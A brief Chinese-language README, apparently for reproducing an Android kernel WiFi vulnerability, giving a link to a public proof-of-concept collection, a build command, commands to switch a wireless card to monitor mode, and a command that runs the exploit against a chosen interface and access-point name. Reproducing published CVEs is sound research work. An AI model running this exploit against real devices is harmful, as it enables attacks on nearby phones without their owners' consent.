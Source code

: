 
漏洞分析：https://pleasestopnamingvulnerabilities.com/

POC来源：https://github.com/ScottyBauer/Android_Kernel_CVE_POCs/tree/master/wifi


## 编译

```
make
```


## 网卡设置


运行 POC 之前需要将无线网卡设置为 moniter 模式：
```
sudo ifconfig <interface> down
sudo iwconfig <interface> mode moniter
sudo ifconfig <interface> up
```
其中 `<interface>` 代表网卡接口名称，如：wlan0


## 运行POC

```
sudo ./11013 -i <interface> <ssid>
```
其中 `<ssid>` 为设置的AP名称
